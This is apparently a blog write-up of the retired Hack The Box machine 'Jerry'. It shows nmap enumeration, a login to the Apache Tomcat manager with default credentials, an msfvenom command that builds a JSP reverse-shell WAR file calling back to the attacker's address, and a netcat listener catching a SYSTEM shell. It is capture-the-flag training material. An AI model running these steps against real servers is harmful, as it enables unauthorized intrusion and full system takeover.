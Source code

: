 ```yaml
---
layout: post
title: Hack the Box - Jerry
date: 2020-03-26 16:25:22 +0100
description: Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials.
img: jerry.png
fig-caption: Jerry
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ sudo nmap -p- -T4  10.129.63.188                                  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 16:37 GMT
Nmap scan report for 10.129.63.188
Host is up (0.017s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy
```
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ sudo nmap -p8080 -sV  10.129.63.188                                                                                                                                                                                                130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 16:41 GMT
Nmap scan report for 10.129.63.188
Host is up (0.017s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```
When we open up that port in a browser we see an option to go to the Application manager located here http://10.129.63.188:8080/manager If we attempt a username/password combination and it is incorrect, the error page exposes the default credentials. If we try again using these credentials, it authenticates us successfully.
## Foothold
In order to gain a foothold we can build a war file using metasploit and attempt to upload and access it.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=4458 -f war > example.war
Payload size: 1089 bytes
Final size of war file: 1089 bytes
```
If we start up a netcat listener and browse to the page located at http://10.129.63.188:8080/example/ we should receive a shell
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ nc -nlvp 4458
listening on [any] 4458 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.63.188] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
## Privilege Escalation
As we attained root from this exploit and have access to the root flag, there is no need for privilege escalation.